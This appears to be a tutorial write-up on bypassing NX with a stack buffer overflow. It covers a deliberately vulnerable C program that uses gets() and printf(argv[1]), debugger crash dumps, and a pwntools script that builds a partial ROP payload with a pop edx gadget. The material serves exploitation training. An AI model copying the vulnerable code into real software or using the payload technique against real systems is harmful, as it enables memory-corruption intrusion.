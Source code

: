 # Bypassing NX using mprotect() and gets(buffer) weak user input

* The vuln.c program:
```C
#include <stdio.h>

// manually declaring gets to bypass compilation error
char *gets(char *s);

int main(int argc, char *argv[]) 
{
        char buffer[256];
        printf(argv[1]);
        printf("\n");
        gets(buffer);
        return 0;
}
```

## Crashing the program:
* The buffer is of size 256 so lets send `256 * A` followed by `4 * B` and check what happens:
```bash
$eax   : 0x0       
$ebx   : 0xf7f9ce00  →  0x00000000
$ecx   : 0x42424242 ("BBBB"?)
$edx   : 0x0       
$esp   : 0x4242423e (">BBB"?)
$ebp   : 0x0       
$esi   : 0xffffcecc  →  0xffffd108  →  "COLORFGBG=15;0"
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x56556210  →  <main+0063> ret 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
[!] Unmapped address: '0x4242423e'
──────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x5655620b <main+005e>      pop    ebx
   0x5655620c <main+005f>      pop    ebp
   0x5655620d <main+0060>      lea    esp, [ecx-0x4]
 → 0x56556210 <main+0063>      ret    
   0x56556211                  add    BYTE PTR [eax], al
   0x56556213                  add    BYTE PTR [ebx-0x7d], dl
   0x56556216 <_fini+0002>     in     al, dx
   0x56556217 <_fini+0003>     or     al, ch
   0x56556219 <_fini+0005>     xchg   ebx, eax
──────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x56556210 in main (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x56556210 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
* As we can see, the return address written is the wrong one, and thats where we want to write our code
* Intersting point: on the top we see 
```bash
$ecx   : 0x42424242 ("BBBB"?)
...
$esp   : 0x4242423e (">BBB"?)
...
[!] Unmapped address: '0x4242423e'
```
What happens here is that the uppercase 'B' became a '>' in ESP because the stack pointer was pushed onto the stack at the start of the function, and loaded again before returning. 
It loads from ECX and subtracts 4, and because of the overflow, 'BBBB' or 0x42424242, is stored, and gives back 0x4242423e (giving `3e` instead of 42 for the first byte)
Apparently, moving the code from the main() function to a new function would get around the issue with the first character changing. 


Ok so we have the buffer fully overwritten, and then some value 'BBBB' is put onto the stack ... good. Lets change this value with the address of the `pop edx; ret;` gadget, and try to pop `0xffffffff` into `edx`:
```bash
#!/usr/bin/python3
from pwn import *

junk = b"A" * 256

rop = b"".join([
    p32(libc_base + 0x0003b4fc),
    p32(0xffffffff)
])

payload = junk + rop #+ shellcode

with open('payload', 'wb') as f:
    f.write(payload)
```
The Result:
```bash
───────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0xffffffff
$ecx   : 0xf7db04fc  →  <setjmp+003c> pop edx
$edx   : 0x0       
$esp   : 0xf7db04fc  →  <setjmp+003c> pop edx
$ebp   : 0x0       
$esi   : 0xffffcecc  →  0xffffd108  →  "COLORFGBG=15;0"
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x59ffffff
```
Good, `pop edx` is put onto the stack, and the next value that follows is `0xffffffff` as expected
